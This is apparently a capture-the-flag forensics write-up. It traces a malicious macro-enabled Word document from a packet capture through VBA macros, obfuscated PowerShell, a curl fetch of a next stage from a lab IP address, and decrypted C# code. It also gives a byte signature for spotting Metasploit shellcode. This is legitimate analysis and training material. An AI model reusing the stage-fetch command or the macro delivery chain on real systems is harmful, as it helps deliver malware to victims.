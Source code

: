 # FIle: 
https://github.com/7h4nd5RG0d/Forensics/blob/main/Steganography/freeflag(WORD)--Macros%2BAlternate%20Text/9f982b056b326e26bf78bca33bd2fe65.pcapng  
# Solve: 
https://github.com/PWrWhiteHats/BtS-2024-Writeups/tree/master/forensics/free_flag/writeup  



1)We can get the freeflag.docm by exporting objects from HTTP.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/e57208d7-d871-4c00-971b-fce4fdedad88)  
2) Open the word in kali and using olevba you can get the macros.
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/11bb769f-b240-434d-b746-e1c101b51837)  
3) Using libreoffice(**Right Click on first image-->Properties-->Options-->Description**) you can get the alternate text for the image.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/b170f6bd-42bc-42e2-b077-78d02fc243c9)  
4) Converting the VBA code to python we get the output as a powershell script.  
https://github.com/7h4nd5RG0d/Forensics/blob/main/Steganography/freeflag(WORD)--Macros%2BAlternate%20Text/code.py  
5)Time to decode the powershell script.  
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/7632494b-a186-44bd-b865-9101ba449fda)  
6)Identating the shell script we get it as: 
![image](https://github.com/7h4nd5RG0d/Forensics/assets/128285431/1a251011-df52-4797-9594-36de8c0d3e73)  
7) We can get the required file by : **curl http://192.168.56.1:1337/d9d9dec9d5d2**  
8) After that following the decryption we get the C# code.
9) Running the C# code on https://dotnetfiddle.net/ we get the flag.  
## Something new:  
1) Images may contain alternate text for helping visually impaired images which comes under macros.
2) Look out for the hexadecimal pattern **fc e8 82 00 00 00 ...** to identify shellcode.
3) Shellcode Analysis:- https://medium.com/ce-digital-forensics/analysing-metasploit-framework-shellcode-e66b89411000  
